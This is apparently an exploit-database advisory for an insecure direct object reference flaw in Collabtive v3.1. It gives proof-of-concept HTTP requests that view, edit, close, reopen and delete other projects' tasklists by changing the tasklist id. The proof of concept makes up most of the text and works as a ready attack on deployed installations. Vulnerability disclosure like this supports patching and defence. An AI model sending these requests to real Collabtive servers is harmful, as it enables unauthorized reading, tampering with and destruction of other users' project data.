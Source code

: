 # Exploit Title: Collabtive v3.1 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://github.com/philippK-de/Collabtive
## Tested on: Debian Linux, Apache, Mysql
## Vendor: philippK-de
## Version: v3.1
## Exploit Description:
## Collabtive v3.1 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to view/update/close/open/delete the tasklist that belongs to other project(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
GET /managetasklist.php?action=showtasklist&id=1&tlid=3(CHANGE HERE) HTTP/1.1
```

```
POST /managetasklist.php?action=edit&id=1&tlid=3(CHANGE HERE) HTTP/1.1
...

name=ms11&desc=&milestone=0
```

```
GET /managetasklist.php?action=close&tlid=6(CHANGE HERE)&id=1 HTTP/1.1
```

```
GET /managetasklist.php?action=open&tlid=1(CHANGE HERE)&id=1 HTTP/1.1
```

```
GET /managetasklist.php?action=del&tlid=1(CHANGE HERE)&id=1 HTTP/1.1
```